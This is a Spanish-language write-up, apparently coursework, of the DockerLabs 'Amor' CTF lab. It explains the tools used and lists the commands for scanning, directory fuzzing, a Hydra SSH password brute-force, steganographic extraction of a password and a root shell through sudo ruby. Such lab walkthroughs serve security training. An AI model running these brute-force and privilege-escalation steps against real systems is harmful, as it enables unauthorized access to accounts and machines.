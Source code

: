 ## DockerLabs - Reto AMOR

1. Realizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado mediante un cuadro que explique su definición, funcionalidad y casos de uso.
## RTA

Este laboratorio forma parte de la plataforma DockerLabs y corresponde a un reto de dificultad Fácil. Tiene como objetivo introducir herramientas básicas de pentesting sobre entornos Docker usando técnicas de escaneo, fuerza bruta y esteganografía.

| **HERRAMIENTA** | **DEFINICION** | **FUNCION** | **USOS** |
| :--- | :--- | :--- | :--- |
| **Docker** | Un sistema de virtualización a nivel de sistema operativo que encapsula aplicaciones y sus dependencias en "contenedores" portátiles y autosuficientes. 📦 | Permite la creación y gestión de ambientes controlados y replicables, aislando procesos para análisis de malware o pruebas de concepto sin riesgo para el sistema anfitrión. | Despliegue de *honeypots*, análisis dinámico de malware (*sandboxing*), y entrenamiento en laboratorios de ciberdefensa. |
| **Nmap** | Una utilidad de código abierto para la exploración de redes y la auditoría de seguridad, considerada el estándar de facto en la industria. 🗺️ | Realiza un mapeo de la superficie de ataque de una red, enumerando hosts, puertos abiertos y los servicios que se ejecutan en ellos, incluyendo sus versiones. | Fase de reconocimiento en una prueba de penetración, validación de políticas de firewall y gestión de vulnerabilidades a nivel de red. |
| **Netdiscover** | Un escáner de reconocimiento activo/pasivo que opera principalmente mediante el protocolo de resolución de direcciones (ARP) en redes locales. 🕵️ | Construye un mapa de los dispositivos presentes en un segmento de red (LAN/WLAN), identificando sus direcciones IP y MAC para obtener conciencia situacional. | Detección de dispositivos no autorizados en una red clasificada, inventario rápido de activos en una evaluación de seguridad interna. |
| **Hydra** | Un cracker de credenciales de red en paralelo, diseñado para ser rápido y flexible al auditar la robustez de las autenticaciones. 🔓 | Automatiza los ataques de diccionario y de fuerza bruta contra una amplia gama de protocolos de red para encontrar contraseñas débiles. | Poner a prueba la efectividad de las políticas de contraseñas de la organización y la capacidad de los sistemas para bloquear intentos de acceso no autorizados. |
| **SCP** | Un protocolo de transferencia de archivos que opera sobre un túnel SSH, garantizando la **confidencialidad** e **integridad** de los datos en tránsito. 🔐 | Facilita la copia cifrada de ficheros entre un host local y uno remoto, o entre dos hosts remotos, de forma segura a través de la línea de comandos. | Exfiltración segura de evidencia digital durante una investigación forense, despliegue de herramientas en sistemas remotos comprometidos. |
| **Steghide** | Una utilidad de línea de comandos que implementa técnicas esteganográficas para incrustar información secreta dentro de archivos de imagen y audio. 🖼️ | Inserta un *payload* (carga útil) de datos dentro de un archivo portador (*carrier file*), modificando su estructura de forma imperceptible para el ojo humano. | Análisis esteganográfico para detectar canales de comunicación encubiertos y la exfiltración de datos no autorizada por parte de amenazas internas o externas. |
| **File** | Un comando estándar en sistemas UNIX/Linux que determina la naturaleza de un archivo examinando sus "números mágicos" y no su extensión. 🔍 | Inspecciona los primeros bytes de un archivo para identificar su tipo real, eludiendo intentos de ofuscación mediante el cambio de nombre. | Identificación de malware que se disfraza con extensiones falsas (ej. un `.exe` renombrado a `.pdf`) y triage inicial de evidencia en análisis forense. |

🛠 Prerrequisitos
Sistema base: Kali Linux



Docker instalado:

sudo apt install docker.io

2. Explicar en detalle cada uno de los comandos empleados en el anterior CTF; realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleadas, este punto amplia el ejercicio anterior.
   
## RTA. 🚚 Despliegue del Laboratorio
Transferir los archivos del reto:

scp -r amor kali@192.168.1.12:/home/kali/Documents/

Descomprimir recursos (si aplica):

unzip amor.zip
Otorgar permisos y ejecutar:

chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
🔍 Reconocimiento
Obtener interfaz:

ip add
Descubrimiento de red:

sudo netdiscover -i docker0 -r 172.17.0.0/24
Escaneo de puertos:


sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
🌐 Enumeración Web
Accedemos al puerto 80 pero no hay información directa. Se lanza fuzzing:


gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
🔐 Ataque por Fuerza Bruta
Usuarios encontrados en el HTML del sitio: carlota y juan.

Ataque SSH usando Hydra:

bash
Copier
Modifier
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
Accedemos vía SSH:

ssh carlota@172.17.0.2
🖼 Extracción de Evidencia
Navegamos al directorio de imágenes:


cd /carlota/Desktop/fotos/vacaciones
Transferimos la imagen:


scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
Inspeccionamos el tipo de archivo:

file imagen.jpg
🕵‍♀ Esteganografía
Extraemos información oculta:


steghide extract -sf imagen.jpg
Decodificamos el contenido del archivo secreto:

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

🧑‍💻 Escalamiento de Privilegios

Accedemos como otro usuario:


su oscar
Comprobamos acceso con sudo:


sudo -l
Acceso a bash mediante Ruby:


sudo /usr/bin/ruby -e 'exec "/bin/bash"'
Verificamos identidad:

whoami



🧾 Cuadro de Herramientas Utilizadas
Se puede consultar el siguiente archivo Excel para la definición, funcionalidad y casos de uso de cada herramienta empleada: Resumen_Herramientas_DockerLabs.xlsx.



🧰 Comandos y Variantes
(Se sugiere agregar un archivo complementario comandos.md con descripciones detalladas de cada comando, sus parámetros y alternativas.)

🔁 Diagrama de Flujo
![DIAGRAMA DE FLUJO](Imagenes/ACCC.png)


📌 Créditos
Laboratorio original: dockerlabs.es 
